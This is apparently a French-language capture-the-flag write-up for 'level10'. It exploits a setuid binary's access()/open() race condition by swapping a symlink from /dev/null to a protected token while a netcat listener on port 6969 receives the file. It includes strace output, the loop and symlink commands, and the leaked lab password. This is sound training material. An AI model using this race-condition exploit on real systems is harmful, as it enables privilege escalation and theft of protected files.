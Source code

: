 # Level 10

Home structure
```
$ ls -la
total 36
drwxrwx---+ 1 level10 level10   260 Jun 28 15:36 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-rw-------  1 flag10  flag10     26 Mar  5  2016 token
```
```
$./level10 file host
	sends file to host if you have access to it
```
L'exécutable nous demandes un fichier avec des accès dessus et une ip ?
```
./level10 token 127.0.0.1
You don't have access to token
./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```
On a plus d'info sur l'ip, il essaye de se connecter à l'ip via le port 6969. On va donc setup un petit serveur
```
$ nc -l 6969 &
[1] 2086
$ ./level10 /tmp/toto 127.0.0.1
Connecting to 127.0.0.1:6969 .. .*( )*.
Connected!
Sending file .. Hello
wrote file!
```
On recoit bien le contenu du fichier `/tmp/toto` qui est: `Hello`.

```
$ strace ./level10 /tmp/toto 127.0.0.1
...
access("/tmp/toto", R_OK)               = 0
write(1, "Connecting to 127.0.0.1:6969 .. ", 32Connecting to 127.0.0.1:6969 .. ) = 32
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(6969), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
write(3, ".*( )*.\n", 8.*( )*.
)                = 8
write(1, "Connected!\n", 11Connected!
)            = 11
write(1, "Sending file .. ", 16Sending file .. )        = 16
open("/tmp/toto", O_RDONLY)             = 4
read(4, "Hello\n", 4096)                = 6
write(3, "Hello\n", 6Hello
)                  = 6
write(1, "wrote file!\n", 12wrote file!
)           = 12
```
Lors du strace de l'exécutable, on voit qu'il essaye d'`access` sur le fichier avec la permission `READ` avant de l'ouvrir et de se connecter. On pourrait peut être faire une [Race condition](https://en.wikipedia.org/wiki/Race_condition) ?

Donc pour ce faire, il faudrait lancer le programme avec comme fichier `toto` dont on a les permissions de `read` puis sur la miliseconde plus tard après l'execution d'`access` changer le fichier `toto` par un autre fichier dont on n'a pas la permission de lire comme le `token`. On peut le faire grace au `softlink`.

Et pour avoir le plus de chance possible on va lancer le programme à l'infini.

On lance `tmux` ou tous simplement 3 instance `ssh`.
- Une qui va exécuter le programme à l'infini
- Une qui va juste listen sur le port `6969`
- Et la dernière qui va link sur un fichier puis attendre une milisecond et relink sur `token`.

```sh
# Instance 1
while true; do ./level10 /tmp/tata 127.0.0.1; done

# Instance 2
nc -kl 6969

# Instance 3
ln -sf /dev/null /tmp/tata; sleep 0.1; ln -sf ~/token /tmp/tata
```
Et sur l'instance 2 on recoit donc le contenu de token qui est le mot de passe de flag10. `woupa2yuojeeaaed06riuj63c`
